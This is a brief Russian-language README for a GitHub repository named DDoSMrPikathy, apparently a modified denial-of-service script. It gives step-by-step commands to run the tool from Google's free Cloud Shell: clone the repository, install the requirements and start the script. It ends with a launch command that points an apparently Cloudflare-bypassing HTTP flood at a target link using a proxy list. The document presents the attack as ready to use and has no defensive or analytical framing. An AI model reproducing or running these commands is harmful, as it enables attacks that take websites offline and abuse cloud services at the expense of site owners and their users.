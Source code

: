 # DDoSMrPikathy
Данный скрипт не мой, но он мной изменен.
Для работы данного скрипта вам нужно будет перейти на бесплатный SHELL.
- https://shell.cloud.google.com

Написать следующие команды:

- git clone https://github.com/MrPikathy/DDoSMrPikathy.git
- ls
- cd DDoSMrPikathy
- pip3 install -r requirements.txt
- python3 start.py

Запуск ддоса:

- python3 start.py CFB Ссылка 1 1000 http.txt 1000 1000
